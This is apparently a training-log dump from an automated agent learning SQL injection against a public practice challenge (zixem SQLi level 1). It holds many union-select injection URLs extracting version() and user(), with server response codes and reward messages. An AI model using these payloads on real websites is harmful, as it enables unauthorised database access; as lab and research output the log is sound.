  0%|          | 251/1000000 [1:49:55<4298:38:43, 15.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 252/1000000 [1:49:56<3071:28:57, 11.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'uni

  0%|          | 253/1000000 [1:50:44<6134:23:53, 22.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 254/1000000 [1:50:45<4356:06:54, 15.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 255/1000000 [1:50:45<3084:48:52, 11.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Synt

  0%|          | 256/1000000 [1:50:51<2644:47:01,  9.52s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.al

  0%|          | 257/1000000 [1:51:56<7309:44:18, 26.32s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 258/1000000 [1:51:57<5193:17:56, 18.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 259/1000000 [1:51:58<3698:21:37, 13.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 260/1000000 [1:51:59<2661:23:19,  9.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 261/1000000 [1:52:00<1924:54:30,  6.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 262/1000000 [1:52:01<1423:50:35,  5.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 263/1000000 [1:52:02<1071:02:04,  3.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 264/1000000 [1:52:02<810:57:37,  2.92s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 265/1000000 [1:52:03<642:57:48,  2.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 266/1000000 [1:52:04<526:32:13,  1.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union sel

  0%|          | 267/1000000 [1:53:39<8284:07:40, 29.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 268/1000000 [1:53:44<6211:48:54, 22.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 269/1000000 [1:53:45<4410:29:40, 15.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 270/1000000 [1:53:46<3149:07:05, 11.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 271/1000000 [1:53:47<2284:36:48,  8.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1

  0%|          | 272/1000000 [1:54:07<3290:06:20, 11.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 273/1000000 [1:54:08<2380:52:24,  8.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 274/1000000 [1:54:09<1740:00:41,  6.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 275/1000000 [1:54:09<1289:21:56,  4.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select version(),user(),3 

  0%|          | 276/1000000 [1:55:00<5130:59:04, 18.48s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 277/1000000 [1:55:01<3655:09:20, 13.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 278/1000000 [1:55:02<2640:13:23,  9.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 279/1000000 [1:55:04<1996:06:44,  7.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 280/1000000 [1:55:05<1478:24:59,  5.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Se

  0%|          | 281/1000000 [1:55:47<4542:06:28, 16.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'uni

  0%|          | 282/1000000 [1:56:00<4314:14:30, 15.54s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 283/1000000 [1:56:01<3098:11:31, 11.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 284/1000000 [1:56:02<2238:09:01,  8.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 285/1000000 [1:56:03<1630:10:08,  5.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 286/1000000 [1:56:04<1217:22:12,  4.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 287/1000000 [1:56:06<1019:12:11,  3.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 288/1000000 [1:56:07<788:11:56,  2.84s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 289/1000000 [1:56:08<626:29:36,  2.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.ph

  0%|          | 290/1000000 [1:56:20<1444:32:48,  5.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 291/1000000 [1:56:21<1083:37:00,  3.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 292/1000000 [1:56:21<821:11:57,  2.96s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 293/1000000 [1:56:22<636:42:37,  2.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 294/1000000 [1:56:23<508:57:32,  1.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 295/1000000 [1:56:24<419:18:25,  1.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 296/1000000 [1:56:25<376:19:23,  1.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 297/1000000 [1:56:25<326:00:51,  1.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 298/1000000 [1:56:26<295:32:29,  1.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 299/1000000 [1:56:27<280:17:28,  1.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --


  0%|          | 300/1000000 [1:56:40<1260:05:24,  4.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response 

  0%|          | 301/1000000 [1:56:56<2187:42:58,  7.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 302/1000000 [1:56:56<1564:20:36,  5.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 303/1000000 [1:56:57<1173:31:36,  4.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server respo

  0%|          | 304/1000000 [1:57:19<2640:15:12,  9.51s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 305/1000000 [1:57:20<1920:33:23,  6.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.alter

  0%|          | 306/1000000 [1:57:54<4253:38:49, 15.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server 

  0%|          | 307/1000000 [1:58:04<3779:11:02, 13.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respons

  0%|          | 308/1000000 [1:58:41<5697:16:32, 20.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 309/1000000 [1:58:42<4057:12:35, 14.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 310/1000000 [1:58:43<2919:54:57, 10.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 311/1000000 [1:58:44<2151:40:11,  7.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 312/1000000 [1:58:46<1655:32:57,  5.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select version(),us

  0%|          | 313/1000000 [1:59:52<6690:20:42, 24.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 314/1000000 [1:59:53<4763:55:11, 17.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 315/1000000 [1:59:55<3500:29:16, 12.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/

  0%|          | 316/1000000 [2:00:39<6147:30:50, 22.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
